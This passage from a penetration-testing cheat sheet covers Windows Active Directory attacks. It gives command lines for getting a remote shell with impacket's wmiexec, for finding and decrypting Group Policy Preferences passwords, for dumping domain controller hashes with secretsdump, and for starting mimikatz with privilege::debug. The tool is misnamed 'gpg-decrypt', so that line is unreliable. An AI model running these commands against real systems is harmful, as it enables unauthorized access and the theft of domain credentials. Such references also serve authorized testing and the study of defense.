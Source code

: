  > 
 > **<font color=red>python3 /opt/impacket/examples/wmiexec.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>mySamName<font color=red>:</font>myPassword<font color=red>@</font>\[TARGET_IP\]**</br>
 > Get a shell on the tageted machine.

# GPP Attack

---

### GPP-DECRYPT

### Principle

GPP (Group Policy Preferences) are policies with credentials embedded (they are encrypted and placed in `cPassword`).

The encryption key was released, so it is possible to decrypt GPP policies that have been encrypted with this key.

### Detection


 > 
 > **<font color=red>use</font> <font color=lightblue>auxiliary/scanner/smb/smb_enum_gpp</font>**</br>
 > Detect vulnerable GPP policies (credentials encrypted with leaked key).

### Hands On


 > 
 > **<font color=red>gpg-decrypt</font> mycPasswordEncrypted**</br>
 > Decrypt GPP enmbedded credentials.

# Hash Dump

---

### IMPACKET-SECRETDUMP (Remote)


 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py</font> myDomain<font color=red>/</font>myUser<font color=red>:</font>myPass<font color=red>@</font>\[TARGET_DC_IP\]**</br>
 > Connect to the target and dump hashes. 

---

### MIMIKATZ (On Target)


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.
